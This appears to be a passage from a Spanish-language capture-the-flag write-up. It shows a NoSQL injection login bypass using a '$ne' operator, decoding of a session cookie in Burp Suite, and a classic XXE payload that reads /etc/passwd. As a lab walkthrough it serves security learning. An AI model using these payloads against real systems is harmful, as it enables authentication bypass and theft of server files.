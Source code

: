 Y ahora debemos de poner la data en formato json asi y ver si es aceptada por la web:

{
	“user” : “admin”,
	“password” : “man”
}

Asi seria aplicando No-SQLI
{
	“user” : “admin”,
	“password” : {“$ne”:“man”}
}

Lo acepta ya que el **content-lenght** cambia y ya no es **1040 si no ahora es 2584**, tambien miramos la bienvenida.

Dentro de la paginaweb en el navegador podemos ir a inspeccionar el codigo y en la parte de **Almacenamiento** podemos ver una **Cookie de Sesion** en la cual en su valor esta en formato **Url Encode** por lo que  si nos vamos al Burpsuite en la parte de Encode podemos pegar esa Cookie y despues en la partde derecha seleccionar **Decode as… y Colocar Url** para asi poder observar el contenido que en este caso es un usuario y firma.

❯ **pushd /home/omar/Downloads/Firefox** El comando pushd nos permitirá crear una lista o pila de directorios enumerada. 
Una vez creada la pila o lista de directorios el comando cd nos permitirá ir de forma rápida y sencilla a cualquier directorio almacenado en la pila o lista de directorios. 
❯ **popd** Para regresarnos al directorio en el que estabamos solo ponemos el comando. 

Dentro de ese directorio no creamos un archivo asi para subirlo a la web:
Nos damos cuenta que el documento que nos deja subir tiene que ser **Xml** de la siguiente manera y eso lo vimos con el **Ctrl+ u** en la pagina.

Procedemos a crear un archivo asi:
❯ **vi file.xml** 
	❮post❯
		❮title❯This is a test❮/title❯
		❮description❯Mensaje de prueba❮/description❯
		❮markdown❯Omar was here❮/markdown❯
	❮/post❯

Vemos que nos reporta lo mismo en la pagina web por lo que ahora buscamos en Google en la pagina (Payloadallthethings) de GitHub y filtramos por **XXE Injection** y nos dirigimos a la parte de **classic XXE**.

Procedemos a crear un archivo asi:
❯ **vi file.xml** 
	❮?xml version=”1.0” encoding=”ISO-8859-1”?❯
		❮!DOCTYPE foo \[
		❮!ELEMENT foo ANY❯
	❮!ENTITY xxe SYSTEM “file:////etc/passwd”❯]❯
	❮post❯
		❮title❯This is a test❮/title❯
		❮description❯Mensaje de prueba❮/description❯
		❮markdown❯&xxe;❮/markdown❯
	❮/post❯
